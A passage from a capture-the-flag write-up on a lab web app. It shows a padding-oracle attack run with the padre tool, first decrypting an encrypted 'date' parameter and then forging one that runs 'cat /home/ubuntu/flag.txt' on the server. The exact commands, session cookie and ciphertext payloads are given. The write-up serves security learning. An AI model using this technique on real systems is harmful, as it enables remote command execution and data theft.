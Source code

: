 However, checking the source code for the dashboard page reveals an interesting form.

![Web 1337 Dashboard Source Code](web_1337_dashboard_source_code.webp){: width="1200" height="600"}

### Padding Oracle Attack

Testing the `date` parameter with its default value in the source code does not yield anything of interest.

![Web 1337 Dashboard Padding](web_1337_dashboard_padding.webp){: width="1200" height="600"}

However, modifying the `date` parameter results in an intriguing error message indicating a **padding error**.

![Web 1337 Dashboard Padding Two](web_1337_dashboard_padding2.webp){: width="1200" height="600"}

Since the application returns an error message for incorrect padding, we can exploit this to perform a [**padding oracle attack**](https://en.wikipedia.org/wiki/Padding_oracle_attack) using the [`padre`](https://github.com/glebarez/padre) tool.

First, we use the **padding oracle** to decrypt the default value for the `date` parameter and discover that it corresponds to the `date +%Y` command, which seems to be how the application prints the current year in the footer.

```console
$ ./padre -u 'http://10.10.225.140:1337/dashboard.php?date=$' -cookie 'PHPSESSID=bmsj2b5btlphctiundj21o4ggl' 'ET7bSJfUSDJmUAl8O4smqP91XxJSk0qgj2FnpulyU3c='
[i] padre is on duty
[i] using concurrency (http connections): 30
[+] successfully detected padding oracle
[+] detected block length: 8
[!] mode: decrypt
[1/1] date +%Y\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08\x08                  [24/24] | reqs: 2981 (37/sec)
```
{: .wrap }

Now, we can also use the **padding oracle** to encrypt data instead of decrypting. Since our goal is to read the flag located at `/home/ubuntu/flag.txt`, we can encrypt the command `cat /home/ubuntu/flag.txt` as follows, which results in `8ToOYHlh0PuGepheR0TEN66XK6YqUx4yZQWGJFft495lbmJyaWVhcw==`.

```console
$ ./padre -u 'http://10.10.225.140:1337/dashboard.php?date=$' -cookie 'PHPSESSID=bmsj2b5btlphctiundj21o4ggl' -enc 'cat /home/ubuntu/flag.txt'
[i] padre is on duty
[i] using concurrency (http connections): 30
[+] successfully detected padding oracle
[+] detected block length: 8
[!] mode: encrypt
[1/1] 8ToOYHlh0PuGepheR0TEN66XK6YqUx4yZQWGJFft495lbmJyaWVhcw==                                  [40/40] | reqs: 4509 (53/sec)
```
{: .wrap }

Finally, setting the `date` parameter to `8ToOYHlh0PuGepheR0TEN66XK6YqUx4yZQWGJFft495lbmJyaWVhcw==` by making a request to `http://10.10.225.140:1337/dashboard.php?date=8ToOYHlh0PuGepheR0TEN66XK6YqUx4yZQWGJFft495lbmJyaWVhcw==`, we see that our encrypted command is executed, and the second flag is displayed in the footer.
